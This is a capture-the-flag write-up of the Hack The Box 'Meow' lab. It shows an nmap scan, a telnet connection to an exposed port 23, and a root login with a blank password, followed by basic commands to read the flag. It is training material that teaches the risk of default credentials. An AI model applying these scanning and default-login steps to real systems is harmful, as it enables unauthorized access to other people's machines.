     # HTB — Meow (Starting Point)

**Author:** Janhavi Mohite  
**Date:**  17/09/2025 
**Difficulty:** Easy
**Objective:** Gain access to the target machine and capture the user flag.

---

##  Summary
Meow is a Starting Point box. An exposed Telnet service (port 23) allowed a blank login for `root`, providing immediate full access. I performed network/service enumeration with `nmap`, connected via `telnet` to obtain a shell, and confirmed root privileges with basic enumeration. Flags are redacted in this public writeup

---

## Target
- **IP Address:** 10.129.76.140
- **Top services:** 23/tcp (telnet)

---

## 2️⃣ Enumeration 
Performed a full port scan using Nmap:

```bash
nmap -sV -sC -p- <IP>
Found an open Telnet service.

Connected to the Telnet service:

bash
Copy code
telnet <IP> <PORT>

--

## 3️⃣ Exploitation 
Login attempt using default credentials:
makefile
Copy code
Username: root
Password: <blank>
Successfully logged in.

--

## 4️⃣ Post-Exploitation 
Verified user privileges:

bash
Copy code
id
Listed files in the current directory:

bash
Copy code
ls -la
Navigated to the flag and read it:

bash
Copy code
cd <directory>
cat flag.txt
Flag captured and submitted.

--

## 5️⃣ Observations & Notes 

The machine was easily accessible due to weak/default credentials.

No advanced exploitation or privilege escalation was required.

Demonstrates the importance of strong passwords and avoiding default credentials.

## 6️⃣ Conclusion 

Successfully enumerated the machine, gained access using Telnet, and captured the user flag.

This lab reinforces a fundamental cybersecurity lesson: always use strong passwords and secure services.



